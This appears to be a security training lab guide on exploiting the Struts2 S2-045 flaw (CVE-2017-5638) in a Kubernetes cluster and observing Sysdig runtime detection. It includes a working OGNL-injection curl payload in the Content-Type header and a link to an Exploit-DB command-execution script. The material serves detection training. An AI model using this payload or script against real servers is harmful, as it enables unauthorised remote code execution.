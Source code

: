 # Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your instructor or environment will provide the a setup.sh file and a pre-configured cluster hosting the Sysdig Detection Agent  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://<NodeIP>:30080` in a browser or use curl:
 
   curl -v http://<NodeIP>:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing: 

curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080

- Alternatively you may use ExplpoitDB: https://www.exploit-db.com/exploits/41570
  Usage: python2 <script> <url> <command>

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub" - However, will not be picked up in Sysdigas no process was spawned, no file was accessed, and no network anomalies were detected.
- However the python script does yield a Medium severity
- In Sysdig: Navigate to "Threats" -->  "Sysdig Runtime Notable Events" --> Event ID: 18191e49f34866df273474732a500c25
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

- 


